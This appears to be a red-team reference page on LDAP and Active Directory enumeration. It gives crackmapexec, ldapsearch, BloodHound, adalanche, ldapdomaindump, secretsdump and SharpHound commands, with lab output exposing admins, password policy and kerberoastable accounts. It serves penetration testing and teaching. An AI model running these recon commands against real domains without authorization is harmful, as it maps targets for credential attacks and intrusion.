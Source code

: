 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# LDAP Enumeration
## Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@enum #@enumerate #@enumeration #@ldap

Tools

		#@impacket #@nmap #@zmap #@ldapsearch #@ldapsearch-ad #@rpcclient #@smbmap #@crackmapexec #@manspider #@adidnsdump #@dnsrecon #@enum4linux #@nopac

</p></details>

## References


## Overview



## Attacks
### From a Linux Machine
#### No Credentials Required (Usually)
* Broad Enumeration
	* <details><summary>Dump Broad LDAP information from a relay attack ([AD MITM and Relay Attacks Guide](Testaments_and_Books/Redvelations/Active_Directory/003-1_AD_NTLM_Capture_and_Relay_Attacks.md)) (Click to expand)</summary><p>
		* Note that relay dump data can be made compatible with BloodHound
			* <details><summary>ldapdomaindump's ldd2bloodhound -<br />[https://github.com/dirkjanm/ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) (Click to expand)</summary><p>
				* ldd2bloodhound conversion

						ldd2bloodhound file.json
					* Example Output

							root@jack-Virtual-Machine:~/ldapdomaindump-output# ldd2bloodhound *.json
							Done!
							root@jack-Virtual-Machine:~/ldapdomaindump-output# find -iname "*.csv"
							./trusts.csv
							./group_membership.csv
	* <details><summary>enum4linux ([enum4linux Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/enum4linux.md)) (Click to expand)</summary><p>

			enum4linux-ng.py -L $DOMAIN_CONTROLLER
		* Options
			* `-R` - enable RID cycling
	* <details><summary>ldapsearch ([ldapsearch Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/ldapsearch.md)) (Click to expand)</summary><p>

			ldapsearch-ad.py -l $DOMAIN_CONTROLLER -t info
		* Example Output

				(ldapsearch-ad) root@jack-Virtual-Machine:~/ldapsearch-ad# python ldapsearch-ad.py -l $DOMAIN_CONTROLLER -t info
				### Server infos ###
				[+] Forest functionality level = Windows 2016
				[+] Domain functionality level = Windows 2016
				[+] Domain controller functionality level = Windows 2016
				[+] rootDomainNamingContext = DC=microsoftdelivery,DC=com
				[+] defaultNamingContext = DC=microsoftdelivery,DC=com
				[+] ldapServiceName = microsoftdelivery.com:dc01$@MICROSOFTDELIVERY.COM
				[+] naming_contexts = ['DC=microsoftdelivery,DC=com', 'CN=Configuration,DC=microsoftdelivery,DC=com', 'CN=Schema,CN=Configuration,DC=microsoftdelivery,DC=com', 'DC=DomainDnsZones,DC=microsoftdelivery,DC=com', 'DC=ForestDnsZones,DC=microsoftdelivery,DC=com']
* Check the forest functional level
	* <details><summary>ldapsearch-ad.py ([ldapsearch Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/ldapsearch.md)) (Click to expand)</summary><p>
		* No Credentials Required

				ldapsearch-ad.py -l $DOMAIN_CONTROLLER -t info
			* Example Output

					(ldapsearch-ad) root@jack-Virtual-Machine:~/ldapsearch-ad# python ldapsearch-ad.py -l $DOMAIN_CONTROLLER -t info
					### Server infos ###
					[+] Forest functionality level = Windows 2016
					[+] Domain functionality level = Windows 2016
					[+] Domain controller functionality level = Windows 2016
					[+] rootDomainNamingContext = DC=microsoftdelivery,DC=com
					[+] defaultNamingContext = DC=microsoftdelivery,DC=com
					[+] ldapServiceName = microsoftdelivery.com:dc01$@MICROSOFTDELIVERY.COM
					[+] naming_contexts = ['DC=microsoftdelivery,DC=com', 'CN=Configuration,DC=microsoftdelivery,DC=com', 'CN=Schema,CN=Configuration,DC=microsoftdelivery,DC=com', 'DC=DomainDnsZones,DC=microsoftdelivery,DC=com', 'DC=ForestDnsZones,DC=microsoftdelivery,DC=com']
* Check the domain functional level
	* <details><summary>ldapsearch-ad.py ([ldapsearch Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/ldapsearch.md)) (Click to expand)</summary><p>
		* No Credentials Required

				ldapsearch-ad.py -l $DOMAIN_CONTROLLER -t info
			* Example Output

					(ldapsearch-ad) root@jack-Virtual-Machine:~/ldapsearch-ad# python ldapsearch-ad.py -l $DOMAIN_CONTROLLER -t info
					### Server infos ###
					[+] Forest functionality level = Windows 2016
					[+] Domain functionality level = Windows 2016
					[+] Domain controller functionality level = Windows 2016
					[+] rootDomainNamingContext = DC=microsoftdelivery,DC=com
					[+] defaultNamingContext = DC=microsoftdelivery,DC=com
					[+] ldapServiceName = microsoftdelivery.com:dc01$@MICROSOFTDELIVERY.COM
					[+] naming_contexts = ['DC=microsoftdelivery,DC=com', 'CN=Configuration,DC=microsoftdelivery,DC=com', 'CN=Schema,CN=Configuration,DC=microsoftdelivery,DC=com', 'DC=DomainDnsZones,DC=microsoftdelivery,DC=com', 'DC=ForestDnsZones,DC=microsoftdelivery,DC=com']
* Check for LDAP Signing and Binding Requirements/Status
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Example

				crackmapexec ldap -M ldap-signing $DOMAIN_CONTROLLER
			* Example Output

					root@jack-Virtual-Machine:~/ldapsearch-ad# crackmapexec ldap -M ldap-signing dc01.$DOMAIN
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					LDAP-SIG... dc01.microsoftdelivery.com 389    DC01             LDAP signing is NOT enforced on dc01.microsoftdelivery.com

#### Credentials Required (Usually)

* Broad LDAP Enumeration Tools
	* BloodHound Ingestors (Note: Windows ingestors are recommended if possible) -<br />[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
		* <details><summary>bloodhound.py ([bloodhound.py Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/Bloodhound/002-0_Ingestors.md)) (Click to expand)</summary><p>
			* Parameters
				* `-c` - Collection Method (comma separated) (default: Default)
					* Supported: Group, LocalAdmin, Session, Trusts, Default (all previous), DCOnly (no computer connections), DCOM, RDP, PSRemote, LoggedOn, ObjectProps, ACL, All (all except LoggedOn)
			* Example 1: LDAP Data only

					python bloodhound.py -u $DOMAIN_USER -p $PASSWORD -c DCOnly -d $DOMAIN
				* <details><summary>Sample Output (Click to expand)</summary><p>

						(BloodHound.py-F7gCb-C8) root@ubuntu:~/Tools/02_Enum/BloodHound.py# python bloodhound.py -u $DOMAIN_USER -p 'P@ssw0rd' -c DCOnly -d securelab.local
						INFO: Found AD domain: securelab.local
						INFO: Connecting to LDAP server: DC01.securelab.local
						INFO: Found 1 domains
						INFO: Found 1 domains in the forest
						INFO: Found 16 computers
						INFO: Connecting to LDAP server: DC01.securelab.local
						INFO: Found 6 users
						INFO: Found 53 groups
						INFO: Found 6 computers
						INFO: Found 0 trusts
						INFO: Done in 00M 00S
	* <details><summary>adalanche (Click to expand) -<br />[https://github.com/lkarlslund/adalanche](https://github.com/lkarlslund/adalanche)</summary><p>
		* Examples
			* Example 1: "What finally worked in the lab"

					./adalanche-linux-x64-v2022.5.19-34-ga528dc2 collect activedirectory --username 'domain_user' --password 'P@ssw0rd'  --server 'dc01.microsoftdelivery.com' --ignorecert
				* Example Output

						root@jack-Virtual-Machine:~/Adalanche# ./adalanche-linux-x64-v2022.5.19-34-ga528dc2 collect activedirectory --username 'domain_user' --password 'P@ssw0rd'  --server 'dc01.microsoftdelivery.com' --ignorecert
						20:16:39.625  WARNING  Problem loading preferences: open preferences.json: no such file or directory               
						20:16:39.625  INFORMA  adalanche v2022.5.19-34-ga528dc2 (non-release), (c) 2020-2022 Lars Karlslund, This program comes with ABSOLUTELY NO WARRANTY            
						20:16:39.637  INFORMA  Probing RootDSE ...     
						| Dumping from  ... (1/-, 62 objects/s)  
						20:16:39.654  INFORMA  Saving RootDSE ...
						| Dumping from  ... (1/-, 503 objects/s) 
						20:16:39.658  INFORMA  Collecting schema objects ...           
						| Dumping from CN=Schema,CN=Configuration,DC=microsoftdelivery,DC=com ... (1770/-, 1074 objects/s) 
						20:16:41.519  INFORMA  Collecting configuration objects ...    
						- Dumping from CN=Configuration,DC=microsoftdelivery,DC=com ... (1664/-, 734 objects/s)      
						20:16:43.924  INFORMA  Collecting other objects ...            
						20:16:43.924  INFORMA  Collecting from base DN DC=DomainDnsZones,DC=microsoftdelivery,DC=com ...   
						| Dumping from DC=DomainDnsZones,DC=microsoftdelivery,DC=com ... (44/-, 803 objects/s)       
						20:16:43.994  INFORMA  Collecting from base DN DC=ForestDnsZones,DC=microsoftdelivery,DC=com ...   
						| Dumping from DC=ForestDnsZones,DC=microsoftdelivery,DC=com ... (18/-, 1490 objects/s)      
						20:16:44.016  INFORMA  Collecting main AD objects ...          
						\ Dumping from DC=microsoftdelivery,DC=com ... (283/-, 709 objects/s)  
						20:16:44.462  INFORMA  Collecting group policy files from \\microsoftdelivery.com\sysvol\microsoftdelivery.com\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9} 
						...
						20:16:44.463  WARNING  Can't access path, aborting this GPO ...
						20:16:44.463  INFORMA  Collecting group policy files from \\microsoftdelivery.com\sysvol\microsoftdelivery.com\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9} 
						...
						20:16:44.463  WARNING  Can't access path, aborting this GPO ...
						20:16:44.463  INFORMA  Terminating successfully
			* Example 2: Data Collection

					Adalanche collect activedirectory --ignorecert --domain $DOMAIN --authdomain $DOMAIN-NETBIOS --username $DOMAIN_USER --password $PASSWORD
			* Example 3: When domain has channel binding/signing requirements

					Adalanche collect activedirectory --port 389 --tlsmode NoTLS
			* Example 4: Parse data collected from sysinternals' adexplorer.exe -<br />[https://download.sysinternals.com/files/AdExplorer.zip](https://download.sysinternals.com/files/AdExplorer.zip)

					Adalanche collect activedirectory --adexplorerfile=yoursavedfile.bin
			* Example 5: Analyze the data after collected/parsed

					Adalanche collect activedirectory --datapath=data/domain1 --domain=domain1

			* [https://github.com/blurbdust/ldd2bh](https://github.com/blurbdust/ldd2bh)
	* <details><summary>ldapdomaindump -<br />[https://github.com/dirkjanm/ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) (Click to expand)</summary><p>
		* Examples
			* Example 1

					ldapdomaindump -u $DOMAIN\\$DOMAIN_USER -p $PASSWORD $DOMAIN_CONTROLLER
			* Example Output

					root@jack-Virtual-Machine:~# ldapdomaindump -u $DOMAIN\\$DOMAIN_USER -p $PASSWORD $DOMAIN_CONTROLLER
					[*] Connecting to host...
					[*] Binding to host
					[+] Bind OK
					[*] Starting domain dump
					[+] Domain dump finished
			* Report results

					root@jack-Virtual-Machine:~/ldapdomaindump-output# ls -lah
					total 324K
					drwxr-xr-x  2 root root 4.0K Aug 18 19:31 .
					drwx------ 40 root root 4.0K Aug 18 19:31 ..
					-rw-r--r--  1 root root 5.0K Aug 18 19:28 domain_computers_by_os.html
					-rw-r--r--  1 root root 2.1K Aug 18 19:28 domain_computers.grep
					-rw-r--r--  1 root root 4.4K Aug 18 19:28 domain_computers.html
					-rw-r--r--  1 root root  41K Aug 18 19:28 domain_computers.json
					-rw-r--r--  1 root root  11K Aug 18 19:28 domain_groups.grep
					-rw-r--r--  1 root root  18K Aug 18 19:28 domain_groups.html
					-rw-r--r--  1 root root  89K Aug 18 19:28 domain_groups.json
					-rw-r--r--  1 root root  275 Aug 18 19:28 domain_policy.grep
					-rw-r--r--  1 root root 1.2K Aug 18 19:28 domain_policy.html
					-rw-r--r--  1 root root 7.5K Aug 18 19:28 domain_policy.json
					-rw-r--r--  1 root root   71 Aug 18 19:28 domain_trusts.grep
					-rw-r--r--  1 root root  828 Aug 18 19:28 domain_trusts.html
					-rw-r--r--  1 root root    2 Aug 18 19:28 domain_trusts.json
					-rw-r--r--  1 root root  20K Aug 18 19:28 domain_users_by_group.html
					-rw-r--r--  1 root root 4.7K Aug 18 19:28 domain_users.grep
					-rw-r--r--  1 root root  12K Aug 18 19:28 domain_users.html
					-rw-r--r--  1 root root  57K Aug 18 19:28 domain_users.json
			* ldd2bloodhound conversion

					root@jack-Virtual-Machine:~/ldapdomaindump-output# ldd2bloodhound *.json
					Done!
					root@jack-Virtual-Machine:~/ldapdomaindump-output# find -iname "*.csv"
					./trusts.csv
					./group_membership.csv
	* <details><summary>ldapsearch ([ldapsearch Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/ldapsearch.md)) (Click to expand)</summary><p>
		* Example

				python ldapsearch-ad.py -l $DOMAIN_CONTROLLER  -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t all
			* Example Output

					(ldapsearch-ad) root@jack-Virtual-Machine:~/ldapsearch-ad# python ldapsearch-ad.py -l $DOMAIN_CONTROLLER  -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t all
					### Server infos ###
					[+] Domain functionality level = Windows 2016
					[+] Domain controller functionality level = Windows 2016
					[+] rootDomainNamingContext = DC=microsoftdelivery,DC=com
					[+] defaultNamingContext = DC=microsoftdelivery,DC=com
					[+] ldapServiceName = microsoftdelivery.com:dc01$@MICROSOFTDELIVERY.COM
					[+] naming_contexts = ['DC=microsoftdelivery,DC=com', 'CN=Configuration,DC=microsoftdelivery,DC=com', 'CN=Schema,CN=Configuration,DC=microsoftdelivery,DC=com', 'DC=DomainDnsZones,DC=microsoftdelivery,DC=com', 'DC=ForestDnsZones,DC=microsoftdelivery,DC=com']
					### Result of "trusts" command ###
					### Result of "pass-pols" command ###
					[+] Default password policy:
					[+] |___Minimum password length = 7
					[+] |___Password complexity = Enabled
					[*] |___Lockout threshold = Disabled
					[*] |___Password history length = 24
					[+] |___Max password age = 1000000000 days, 0 hours, 0 minutes, 0 seconds
					[+] |___Min password age = 0 seconds
					[+] No fine grained password policy found (high privileges are required).
					### Result of "admins" command ###
					[+] All members of group "Domain Admins":
					[+]     Administrator
					[*]     domain_admin (DONT_EXPIRE_PASSWORD)
					[+] All members of group "Administrators":
					[+]     Administrator
					[*]     domain_admin (DONT_EXPIRE_PASSWORD)
					[+] All members of group "Enterprise Admins":
					[+]     Administrator
					[*]     domain_admin (DONT_EXPIRE_PASSWORD)
					### Result of "kerberoast" command ###
					[*] kerberoastable : cifs/dc01.microsoftdelivery.com
					### Result of "asreqroast" command ###
					[*] {'cn': 'kerberoastable', 'sAMAccountName': 'kerberoastable'}
					[*] {'cn': 'asrep roastable', 'sAMAccountName': 'asreproastable'}
					### Result of "goldenticket" command ###
					[+] krbtgt password changed at 2022-06-24 17:43:05
* Direct LDAP Queries (See bottom of page for cheat sheet)
	* <details><summary>impacket's secretsdump.py (modified) (currently unmerged branch, but may be soon after this writing of 2022.09) (Click to expand) -<br />[https://github.com/snovvcrash/impacket/tree/secretsdump-ldapfilter](https://github.com/snovvcrash/impacket/tree/secretsdump-ldapfilter)</summary></details><p>
		* References
			* snovvcrash's twitter -<br />[https://twitter.com/snovvcrash/status/1551938466090553351](https://twitter.com/snovvcrash/status/1551938466090553351)
		* Example 1: Kerberos Authentication, Query for Domain Administrators (Users with adminCount=1)

				secretsdump.py -k -no-pass $DOMAIN_CONTROLLER -dc-ip $DC_IP -ldapfilter '(&(objectClass=user)(adminCount=1))'

* Enumerate Computers that have never logged on and do not require a password (Useful for computer pre-creation attack)
* Enumerate Trust information ([`Gather Victim Network Information - Network Trust Dependencies` TTP](TTP/T1590_Gather_Victim_Network_Information/003_Network_Trust_Dependencies/T1590.003.md))
	* <details><summary>ldapsearch ([ldapsearch Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/ldapsearch.md)) (Click to expand)</summary><p>
		* Example

				python ldapsearch-ad.py -l $DOMAIN_CONTROLLER  -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t trusts
* Enumerate Administrators and admin password reset information
	* <details><summary>ldapdomaindump -<br />[https://github.com/dirkjanm/ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) (Click to expand)</summary><p>
		* Example

				python ldapsearch-ad.py -l $DOMAIN_CONTROLLER  -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t admins
			* Example Output

					(ldapsearch-ad) root@jack-Virtual-Machine:~/ldapsearch-ad# python ldapsearch-ad.py -l $DOMAIN_CONTROLLER  -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t admins
					### Result of "admins" command ###
					[+] All members of group "Domain Admins":
					[+]     Administrator
					[*]     domain_admin (DONT_EXPIRE_PASSWORD)
					[+] All members of group "Administrators":
					[+]     Administrator
					[*]     domain_admin (DONT_EXPIRE_PASSWORD)
					[+] All members of group "Enterprise Admins":
					[+]     Administrator
					[*]     domain_admin (DONT_EXPIRE_PASSWORD)
* Check for LDAP Signing and Binding Requirements/Status
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Example

				crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M ldap-checker
			* Example Output

					root@jack-Virtual-Machine:~# crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M ldap-checker
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					LDAP        dc01.microsoftdelivery.com 389    DC01             [+] microsoftdelivery.com\domain_user:P@ssw0rd 
					LDAP-CHE... dc01.microsoftdelivery.com 389    DC01             LDAP Signing NOT Enforced!
					LDAP-CHE... dc01.microsoftdelivery.com 389    DC01             Channel Binding is set to "NEVER" - Time to PWN!
	* zyn3rgy's GitHub: LdapRelayScan -<br />[https://github.com/zyn3rgy/LdapRelayScan](https://github.com/zyn3rgy/LdapRelayScan)
* ADCS: [ADCS Enumeration Guide](Testaments_and_Books/Redvelations/Active_Directory/001-5_ADCS_Enumeration.md)
* Enumerate the Machine Account Quota
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Example

				crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M MAQ
			* Example Output

					root@jack-Virtual-Machine:~# crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M MAQ
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					LDAP        dc01.microsoftdelivery.com 389    DC01             [+] microsoftdelivery.com\domain_user:P@ssw0rd 
					MAQ         dc01.microsoftdelivery.com 389    DC01             [*] Getting the MachineAccountQuota
					MAQ         dc01.microsoftdelivery.com 389    DC01             MachineAccountQuota: 10
* Subnet Enumeration
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Example 1: "subnets" module

				crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M subnets
			* Example Output

					root@jack-Virtual-Machine:~# crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M subnets
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					LDAP        dc01.microsoftdelivery.com 389    DC01             [+] microsoftdelivery.com\domain_user:P@ssw0rd 
					SUBNETS     dc01.microsoftdelivery.com 389    DC01             [*] Getting the Sites and Subnets from domain
					SUBNETS     dc01.microsoftdelivery.com 389    DC01             Site "Default-First-Site-Name"
		* Example 2: "find-subnet" module (Note: This appearedin a tweet and may only be available in porchetta industries at the time of this writing, 2022.08)

				crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M find-subnet
* List user descriptions
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Example

				crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M user-desc
			* Example

					crackmapexec ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -M user-desc
					SMB         dc01.microsoftdelivery.com 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:microsoftdelivery.com) (signing:True) (SMBv1:False)
					LDAP        dc01.microsoftdelivery.com 389    DC01             [+] microsoftdelivery.com\domain_user:P@ssw0rd 
					USER-DES...   User: krbtgt - Description: Key Distribution Center Service Account
					USER-DES...   Saved 4 user descriptions to /root/.cme/logs/UserDesc-dc01.microsoftdelivery.com-20220813_211406.log
* List all domain users
	* <details><summary>ldapsearch (Click to expand)</summary><p>

			ldapsearch -LLL -x -H ldap://$DOMAIN_CONTROLLER -D "jar-jar.binks@pwny.lab" -w Welcome2015 -b dc=pwny,dc=lab "(objectClass=user)" sAMAccountName userPrincipalName memberOf
* Password Policy
	* <details><summary>ldapsearch-ad.py ([ldapsearch Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/ldapsearch.md)) (Click to expand)</summary><p>
		
				ldapsearch-ad.py -l $LDAP_SERVER -d $DOMAIN -u $USER -p $PASSWORD -t pass-pol
			* Example Output

					(ldapsearch-ad) root@jack-Virtual-Machine:~/ldapsearch-ad# python ldapsearch-ad.py -l $DOMAIN_CONTROLLER  -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD -t pass-pols
					### Result of "pass-pols" command ###
					[+] Default password policy:
					[+] |___Minimum password length = 7
					[+] |___Password complexity = Enabled
					[*] |___Lockout threshold = Disabled
					[*] |___Password history length = 24
					[+] |___Max password age = 1000000000 days, 0 hours, 0 minutes, 0 seconds
					[+] |___Min password age = 0 seconds
					[+] No fine grained password policy found (high privileges are required).
* List all domain groups
	* <details><summary>ldapsearch (Click to expand)</summary><p>

				ldapsearch -LLL -x -H ldap://$DOMAIN_CONTROLLER -D "jar-jar.binks@pwny.lab" -w Welcome2015 -b dc=pwny,dc=lab "(objectClass=group)" sAMAccountName member memberOf
* List all domain joined systems
	* <details><summary>ldapsearch (Click to expand)</summary><p>

			ldapsearch -LLL -x -H ldap://$DOMAIN_CONTROLLER -D "jar-jar.binks@pwny.lab" -w Welcome2015 -b dc=pwny,dc=lab "(objectClass=computer)" name dNSHostname operatingSystem operatingSystemVersion lastLogonTimestamp servicePrincipalName
* Enumerate all members of a group
	* <details><summary>ldapsearch (Click to expand)</summary><p>

			ldapsearch -LLL -x -H ldap://$DOMAIN_CONTROLLER -D "jar-jar.binks@pwny.lab" -w Welcome2015 -b dc=pwny,dc=lab "(&(objectClass=user)(memberof:1.2.840.113556.1.4.1941:=CN=Domän-Admins,CN=Users,DC=PWNY,DC=LAB))" | grep sAMAccountName | cut -d" " -f2
* Enumerate all groups a user is member of
	* <details><summary>ldapsearch (Click to expand)</summary><p>

			ldapsearch -LLL -x -H ldap://$DOMAIN_CONTROLLER -D "jar-jar.binks@pwny.lab" -w Welcome2015 -b dc=pwny,dc=lab "(sAMAccountName=darth.vader)" sAMAccountName userPrincipalName memberOf | grep memberOf | cut -d "=" -f2 | cut -d"," -f1

### From a Windows Machine

* BloodHound Ingestors -<br />[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
	* .NET
		* <details><summary>Recommended: Sharphound.exe (Bloodhound) -<br />[https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) (Click to expand)</summary><p>

				.\SharpHound.exe -c <collection:all,GPOLocalGroup> -d <domain>.<tld> --throttle <10000> --ZipFilename <outfile.zip> --EncryptZip --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller <DC_IP> --jitter <23>
	* PowerShell
		* <details><summary>Recommended: Sharphound.ps1<br />[https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1) (Click to expand)</summary><p>
			* Requirements
				* The Powershell session must be running `-ExecutionPolicy Bypass`.
			* Example

					Invoke-BloodHound -CollectionMethod All  -LDAPUser $DOMAIN_USER -LDAPPass $PASSWORD -OutputDirectory <PathToFile>
			* File is installed at `/usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1`
	* Remote Windows System
		* <details><summary>Recommended: Sharphound.exe (Bloodhound) -<br />[https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) (Click to expand)</summary><p>
	 		* Process
				1. From a command prompt (in a blank Windows VM or something of the like), run:

						runas /netonly /user:$DOMAIN-NETBIOS\$DOMAIN_USER "powershell -ep bypass"
				1. Type in the domain user's password and press enter.
				1. In the new Powershell window, simply import and run the collection script as usual:

						import-module .\sharphound.ps1
						invoke-bloodhound -domain $DOMAIN
				1. If you're running on your own VM, you should use **SharpHound.exe** (Faster, more reliable):
					1. From a command prompt (in a blank Windows VM or something of the like), run:

							runas /netonly /user:$DOMAIN-NETBIOS\$DOMAIN_USER "powershell -ep bypass"
					1. Type in the domain user's password and press enter
					1. In the new Powershell window, simply import and run the collection script as usual:

							SharpHound.exe --CollectionMethod All --domain $DOMAIN
	* LOLBAS and Sysinternals
		* <details><summary>sysinternals' adexplorer.exe -<br />[https://download.sysinternals.com/files/AdExplorer.zip](https://download.sysinternals.com/files/AdExplorer.zip) (Click to expand)</summary><p>
			* <details><summary>References (Click to expand)</summary><p>
				* BHIS Blog: Domain Goodness – How I Learned to LOVE AD Explorer -<br />[https://www.blackhillsinfosec.com/domain-goodness-learned-love-ad-explorer/](https://www.blackhillsinfosec.com/domain-goodness-learned-love-ad-explorer/)
				* TrustSec Blog: ADExplorer on Engagements -<br />[https://www.trustedsec.com/blog/adexplorer-on-engagements/](https://www.trustedsec.com/blog/adexplorer-on-engagements/)
				* Microsoft Documentation: ADExplorer.exe -<br />[https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
			* Overview, Requirements
				* A registry must be added to accept the EULA when running the tool from the command-line:

						reg add “HKCU\software\Sysinternals\Active Directory Explorer” /v EulaAccepted /t REG_DWORD /d 1 /f & ADexplorer.exe -snapshot “” ad_snapshot.dat
			* Examples
				* Example 1: Command-Line Create Snapshot

						adexplorer.exe -snapshot “” mysnap.dat
				* Example 2: Run adexplorer.exe without uploading it first

						\\live.sysinternals.com\tools\adexplorer.exe -snapshot “” snap.dat
			* Convert to bloodhound-compatible with the ADEXplorerSnapshot python tool -<br />[https://github.com/c3c/ADExplorerSnapshot.py](https://github.com/c3c/ADExplorerSnapshot.py)
* LOLBAS and Sysinternals
	* Enumerate Computers that have never logged on and do not require a password (Useful for computer pre-creation attack)
		* <details><summary>References (Click to expand)</summary><p>
			* TrustedSec Blog: Diving into pre-created computer accounts -<br />[https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)
			* Guidance on UserAccountControl flags
				* Microsoft Docs: Use the UserAccountControl flags to manipulate user account properties -<br />[https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)
		* <details><summary>ADExplorer (Click to expand)</summary><p>
			1. Connect ADExplorer
			1. Apply filters for the following:
				* Account has never logged on
				* userAccountControl is `4128`, which is the sum of the below attributes:
					* `32` – `PASSWD_NOTREQD`
					* `4096` – `WORKSTATION_TRUST_ACCOUNT`
* Username Enumeration
	* Powershell
		* <details><summary>Scripts (Click to expand)</summary><p>
			* All domain usernames (without AD module)

					$search = [adsisearcher]"(&(ObjectCategory=Person)(ObjectClass=User))"
					$search.PageSize = 200
					$search.PropertiesToLoad.Add("SamAccountName")
					$users = $search.FindAll()
